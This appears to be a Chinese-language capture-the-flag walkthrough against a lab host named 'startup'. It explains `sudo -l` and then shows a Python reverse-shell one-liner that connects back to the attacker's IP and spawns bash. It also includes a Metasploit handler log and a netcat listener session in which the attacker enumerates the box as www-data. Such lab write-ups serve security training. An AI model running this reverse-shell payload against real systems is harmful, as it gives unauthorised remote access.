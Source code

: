 `sudo -l`是一个用于查看当前用户在sudo配置中具有的权限的命令。

解释：
- `sudo`: 是用于以超级用户（root）权限运行命令的工具。它允许授权用户以临时的管理员身份执行特定的命令，以便完成需要特权权限的任务。

- `-l`: 这是sudo命令的一个选项，表示"list"，用于列出当前用户的sudo权限。

当你在终端中执行`sudo -l`命令时，它会要求你输入当前用户的密码（如果当前用户有sudo权限的话）。然后，它会显示当前用户在sudo配置中被允许执行的命令和权限列表。这样，你可以了解到你有哪些特权，以及在什么情况下可以以管理员身份执行命令。

请注意，使用`sudo`命令要谨慎，并确保只授予合理的权限给用户，以避免安全风险。在配置sudo权限时，应该限制用户只能执行必要的特权操作，并避免赋予不必要的权限。

因为无法执行su命令，只能尝试重新用Python spwan a shell。

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.72.222",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.72.222:4433 
[*] Command shell session 8 opened (10.18.72.222:4433 -> 10.10.40.155:49924) at 2023-08-03 07:06:48 -0400


python -V

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.72.222",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

果然，Python spwan的Shell才可以进行交互！！

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.72.222] from (UNKNOWN) [10.10.40.155] 50556
www-data@startup:/var/www/html/files/ftp$ whoami
whoami
www-data
www-data@startup:/var/www/html/files/ftp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@startup:/var/www/html/files/ftp$ cd /home
cd /home
www-data@startup:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root   root   4096 Nov 12  2020 .
drwxr-xr-x 25 root   root   4096 Aug  3 06:36 ..
drwx------  4 lennie lennie 4096 Nov 12  2020 lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
```

